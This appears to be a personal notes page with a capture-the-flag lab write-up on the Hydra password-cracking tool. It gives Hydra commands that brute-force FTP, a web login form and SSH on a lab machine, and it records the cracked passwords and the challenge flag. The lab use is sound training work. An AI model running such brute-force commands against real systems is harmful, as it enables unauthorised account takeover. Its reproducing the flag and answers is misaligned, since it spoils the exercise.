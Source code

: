 ```yaml
---
{"dg-publish":true,"permalink":"/my-digital-garden/","tags":["gardenEntry"],"created":"2025-02-06T18:51:33.711-05:00","updated":"2025-02-06T19:43:41.145-05:00"}
---
```


Testing 123

Trying this out again 



# Task 2 - Using Hydra

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`


> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

Checking the page source tells us that its using a "POST" method as the request type

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.


Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```


Then SSH'd into molly's machine to get the flag using the password, butterfly.


> [!Success] Answer
> `THM {c8eeb0468febbadea859baeb33b2541b}`
